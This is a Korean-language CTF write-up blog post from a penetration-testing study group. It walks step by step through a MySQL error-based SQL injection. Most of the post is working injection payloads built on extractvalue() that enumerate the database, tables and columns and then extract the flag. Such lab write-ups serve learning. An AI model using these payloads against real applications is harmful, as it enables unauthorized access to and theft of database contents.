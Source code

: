 ```yaml
---
layout: post
comments: true
sitemap:
    changefreq:
    priority:

title: "[CTF] CTF 문제 풀이: Error Based SQL Injection"
excerpt: "모의해킹 취업반 스터디 7기 7주차"

date: 2024-11-28
last_modified_at: 

categories: [CTF]
tags: [TIL, WEB]
---
```


# 회고
* Error-Based SQL Injection은 SQL의 Error 문구를 이용하여 데이터를 추출하는 공격 방식이다.
* 데이터베이스 종류마다 공격 방식이 다르다.
* MySQL에서는 공격 방식이 크게 두 가지가 있는데, 그 중 하나가 XPath를 이용한 공격이다.
    extractvalue()함수를 이용한다.
  
**[이론 설명 포스트](/Error_Based_SQL_Injection)**

# Error Based SQL Injection
## START
1. **normaltic**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-28-1.png?raw=true)
1. **normaltic'**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-28-2.png?raw=true)
1. **normaltic' and extractvalue('1', (concat(0x3a, 'test'))) #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-28-3.png?raw=true)

## DATABASE
1. **normaltic' and extractvalue('1', (concat(0x3a, database()))) #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-28-4.png?raw=true)
-> 💡 DB의 이름이 errSqli라는 것을 알았다

## TABLE
1. **normaltic' and extractvalue('1', (concat(0x3a, select table_name from information_schema.tables where table_schema = 'errSqli' limit 0, 1))) #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-29-1.png?raw=true)
-> 👀 문법 오류가 발생했다.  
-> 🙄 문법 오류가 왜 발생한 건지 잘 모르겠다.  

1. **normaltic' and extractvalue('1', (concat(0x3a, select database()))) #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-29-2.png?raw=true)
-> 👀 문법 오류가 발생했다.  
-> 👀 [위쪽](#database)에서는 SELECT를 안 쓰고 DATABASE()만 썼더니 나왔다.  
-> 🤔 SELECT를 쓸 때는 괄호를 한 번 더 감싸줘야 하는걸까?  

1. **normaltic' and extractvalue('1', (concat(0x3a, (select database())))) #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-28-4.png?raw=true)
-> 💡 괄호로 SELECT문을 한 번 더 감싸줬더니 결과가 나왔다.  
-> 🤔 TABLE 이름 가져오는 것도 마찬가지고 괄호로 한 번 감싸면 될 것 같다.  

1. **normaltic' and extractvalue('1', (concat(0x3a, (select table_name from information_schema.tables where table_schema = 'errSqli' limit 0, 1)))) #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-28-5.png?raw=true)
-> 💡 첫 번째 TABLE 이름이 flagTable이라고 한다.  
-> 🤔 혹시 다른 TABLE이 더 있을까?  

1. **normaltic' and extractvalue('1', (concat(0x3a, (select count(table_name) from information_schema.tables where table_schema = 'errSqli')))) #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-28-6.png?raw=true)
-> 💡 TABLE 개수가 3개라고 한다.  

1. **normaltic' and extractvalue('1', (concat(0x3a, (select table_name from information_schema.tables where table_schema = 'errSqli' limit 1, 1)))) #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-28-7.png?raw=true)
-> 💡 두 번째 TABLE 이름은 member였다.  

1. **normaltic' and extractvalue('1', (concat(0x3a, (select table_name from information_schema.tables where table_schema = 'errSqli' limit 2, 1)))) #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-28-8.png?raw=true)
-> 💡 두 번째 TABLE 이름은 plusFlag_Table였다.  
-> 🤔 flagTable 먼저 확인하고 안 되면 plusFlag_Table 확인하면 될 것 같다.  

## COLUMN
💡 이제부터는 개수 먼저 확인해야겠다.  
1. **normaltic' and extractvalue('1', (concat(0x3a, (select count(column_name) from information_schema.columns where table_name = 'flagTable')))) #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-28-9.png?raw=true)
-> 💡 flagTable의 컬럼 개수는 2개라고 한다.  
-> 💡 하나씩 컬럼 이름을 확인해보겠다.  

1. **normaltic' and extractvalue('1', (concat(0x3a, (select column_name from information_schema.columns where table_name = 'flagTable' limit 0, 1)))) **#
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-28-10.png?raw=true)
-> 💡 첫 번째는 idx였다.  

1. **normaltic' and extractvalue('1', (concat(0x3a, (select column_name from information_schema.columns where table_name = 'flagTable' limit 1, 1)))) **#
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-28-11.png?raw=true)
-> 💡 두 번째는 flag였다.  

## DATA
💡 마찬가지로 개수 먼저 확인했다.  
1. **normaltic' and extractvalue('1', (concat(0x3a, (select count(flag) from flagTable)))) #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-28-12.png?raw=true)
-> 💡 데이터는 총 1개이다.  

1. **normaltic' and extractvalue('1', (concat(0x3a, (select flag from flagTable)))) #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-28-13.png?raw=true)
-> 😎 찾았다!  